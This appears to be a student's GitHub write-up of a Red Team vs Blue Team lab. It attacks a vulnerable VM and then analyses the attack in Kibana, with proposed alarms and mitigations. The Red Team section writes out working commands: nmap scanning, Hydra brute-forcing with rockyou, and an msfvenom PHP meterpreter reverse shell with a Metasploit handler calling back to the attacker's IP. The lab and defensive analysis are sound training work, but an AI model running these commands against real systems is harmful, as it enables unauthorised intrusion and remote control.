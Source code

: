 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ifconfig to find the IP address of the capstone machine, which was the machine we were attacking.

-	I then ran a Nmap command nmap -sV 192.168.1.105 to find the open ports

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

-	On the Kali machine, I ran the Hydra tool with the command hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder on it that used brute force into the wordlist and found the password for it.

-	I then logged into the secret folder and found a personal note in it.

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.


-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php

-	I then uploaded the shell into the webdav directory.

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	Msfconsole
	-	use exploit/multi/handler
	-	Set payload php/meterpreter/reverse_tcp
	-	set LHOST 192.168.1.90
	-	set LPORT 80
	-	show options
	-	run

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command shell and went back to the root directory and then listed the directories and found the flag.



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested



Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
